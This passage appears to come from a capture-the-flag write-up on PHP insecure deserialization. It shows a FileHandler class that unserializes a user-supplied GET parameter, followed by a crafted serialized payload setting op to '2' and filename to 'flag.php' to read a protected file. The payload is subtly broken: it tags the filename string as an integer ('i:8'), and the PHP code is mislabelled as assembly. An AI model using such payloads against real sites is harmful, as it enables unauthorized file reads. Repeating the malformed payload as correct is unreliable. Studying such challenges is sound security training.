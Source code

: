 ```assembly
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

执行

```assembly
<?php

$file = new FileHandler();
echo(serialize($file));
```

`O:11:"FileHandler":3:{s:5:" * op";N;s:11:" * filename";N;s:10:" * content";N;}`

根据

$op = "2";
$filename = "flag.php";

`O:11:"FileHandler":3:{s:5:"%00*%00op";s:1:"2";s:11:"%00*%00filename";i:8:"flag.php";s:10:"%00*%00content";N;}`
